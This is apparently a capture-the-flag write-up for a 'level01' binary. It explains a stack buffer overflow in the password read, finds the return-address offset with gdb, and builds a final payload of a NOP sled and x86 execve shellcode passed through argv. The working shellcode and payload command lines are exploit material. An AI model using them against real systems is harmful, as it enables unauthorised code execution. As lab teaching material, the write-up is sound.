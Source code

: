 # Shell code

## Context

The program read twice stdin to get a admin login and password login.

```bash
./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: 
Enter Password:
```

First read seems unoverwritable because it is not write in stack.

```c
  fgets(&a_user_name,0x100,stdin);
```

We need enter a 'dat_wil' to go through the first read, or the program exit.

```c
  pbVar3 = (byte *)"dat_wil";
```

Second buffer seems overflow on the stack because it read 100 in a buffer[16].

```c
    fgets((char *)buffer_16,100,stdin);
```

```bash
Enter Password: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
nope, incorrect password...

Segmentation fault (core dumped)
```

## Exploit With shell code

Get offset with gdb:

```py
[+] Found at offset 80 (little-endian search) likely
```

Lets try the offset : 

```py
r < <(python3 -c 'import sys; sys.stdout.buffer.write(b"dat_wil" + b"\x00" + b"\n" + b"A" * 80 + b"BBBB")')
stopped 0x42424242
```
Well, it nice seg !

### Payload

I gonna split the payload in two parts : first overwrite the address. And second gonna write the shell code in argv[1] to wrote it in the stack.

- payload1 = "dat_wil" + fell the first buffer + Offset + buffer address
- payload2 = padding \x90 + shell code.

:warning: Its important to add a big padding, i did try with a 20 padding, it segfaulted. I increased it, it worked.

- shell code : ```\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80``` (21 bytes)
- argv[1] buffer address = 0xffffd7ec

final payload : 

```py
cat <(python2.7 -c 'import sys; sys.stdout.write(b"dat_wil" + b"\x00" + b"\x90" * 248 + b"\x90" * 79 + b"\xec\xd7\xff\xff")') - | ./level01  $(python2.7 -c 'import sys; sys.stdout.write(b"\x90" * 0xffff + b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
```